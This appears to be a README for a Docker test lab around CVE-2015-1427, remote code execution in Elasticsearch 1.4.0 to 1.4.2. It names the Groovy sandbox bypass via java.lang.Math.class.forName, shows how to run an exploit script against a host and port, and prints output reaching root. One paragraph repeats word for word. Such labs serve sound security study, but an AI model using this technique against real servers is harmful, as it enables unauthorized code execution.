 # Elasticsearch 1.4.0 &lt; 1.4.2 Remote Code Execution

Elasticsearch is a distributed, RESTful search and analytics engine capable of solving a growing number of use cases. As the heart of the Elastic Stack, it centrally stores your data so you can discover the expected and uncover the unexpected.

## Vulnerable environment

To setup a vulnerable environment for your test you will need [Docker](https://docker.com) installed, and just run the following command:

    docker build -t vuln/cve-2015-1427 .
    docker run --rm -it -p 9200:9200 vuln/cve-2015-1427

And it will spawn a vulnerable web application on your host on `9200` port

## Vulnerable code

The bug is found in the REST API, which does not require authentication, where the search function allows groovy code execution and its sandbox can be bypassed using `java.lang.Math.class.forName` to reference arbitrary classes. It can be used to execute arbitrary Java code. The bug is found in the REST API, which does not require authentication, where the search function allows groovy code execution and its sandbox can be bypassed using `java.lang.Math.class.forName` to reference arbitrary classes. It can be used to execute arbitrary Java code.

## Exploit

To exploit this target just run:

    ./exploit.sh host:port

If you are using this vulnerable image, you can just run:

    ./exploit.sh 127.0.0.1:9200
    [+] CVE-2015-1427 exploit by t0kx
    [+] Exploiting 127.0.0.1:9200
    [+] Trigger Payload...
    [+] Running whoami: root
    [+] Done

## Credits

This flaw was found by the Cisco Systems Information Security Team and Cameron Morris.

## Disclaimer

This or previous program is for Educational purpose ONLY. Do not use it without permission. The usual disclaimer applies, especially the fact that me (t0kx) is not liable for any damages caused by direct or indirect use of the information or functionality provided by these programs. The author or any Internet provider bears NO responsibility for content or misuse of these programs or any derivatives thereof. By using these programs you accept the fact that any damage (dataloss, system crash, system compromise, etc.) caused by the use of these programs is not t0kx's responsibility.

